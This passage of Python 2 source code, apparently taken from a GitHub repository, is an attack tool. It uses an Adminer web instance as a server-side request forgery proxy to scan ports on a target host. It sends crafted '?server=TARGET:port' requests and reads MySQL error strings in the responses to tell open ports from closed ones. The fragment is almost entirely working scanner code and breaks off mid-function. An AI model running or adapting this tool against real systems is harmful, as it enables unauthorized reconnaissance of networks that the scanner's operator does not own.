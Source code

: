         s.close()
        return None



    def scan(ADMINER,ADMINER_PORT,ADMINER_URI,TARGET,PORTS_TO_SCAN,PRINT_CLOSED,USE_SSL):
        global MAX_TIME,port_range
        RES=''

        print 'scanning ports: %s ' % str(port_range[0])+'to ' + str(port_range[-1])+' ...'

        for aPort in port_range:
             aPort=str(aPort)

             try:
                 s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                 s.settimeout(MAX_TIME)
                 s.connect((ADMINER,ADMINER_PORT))

                 if USE_SSL:
                    s=ssl.wrap_socket(s, keyfile=None, certfile=None, server_side=False, cert_reqs=ssl.CERT_NONE, ssl_version=ssl.PROTOCOL_SSLv23)

                 s.send('GET /'+ADMINER_URI+'/?server='+TARGET+':'+aPort+'&username= HTTP/1.1\r\nHost: '+TARGET+'\r\n\r\n')

             except Exception as e:
                  print str(e)
                  s.close()
                  return

             while True:
                  try:
                     RES=s.recv(512)
                     ###print RES
                     ###Should see HTTP/1.1 403 not 200
                     if RES.find('HTTP/1.1 200 OK')!=-1:
                         print 'port '+aPort +  ' open'
                         port_lst.append(aPort+' open')
                         s.close()
                         break

                     if RES.find('400 Bad Request')!=-1:
                         print '400 Bad Request, check params'
                         s.close()
                         break
                         raw_input()

                     lst=re.findall(r"([^\n<div>].*connect to MySQL server on.*[^</div>\n])|(Lost connection to MySQL server at.*)|(MySQL server has gone away.*)"+
                                 "|(No connection could be made because the target machine actively refused it.*)|(A connection attempt failed.*)|(HTTP/1.1 200 OK.*)", RES)

                     if lst:
                          status=str(lst)
                          if status.find('connect to MySQL')!=-1:
                              if PRINT_CLOSED:
                                  print 'port '+ aPort +  ' closed'
                              s.close()
                              break
                          elif status.find('machine actively refused it.')!=-1:
                              if PRINT_CLOSED:
                                  print 'port '+ aPort +  ' closed'
                              s.close()
                              break
                          elif status.find('A connection attempt failed')!=-1:
                              if PRINT_CLOSED:
                                   print 'port '+ aPort +  ' closed'
                              s.close()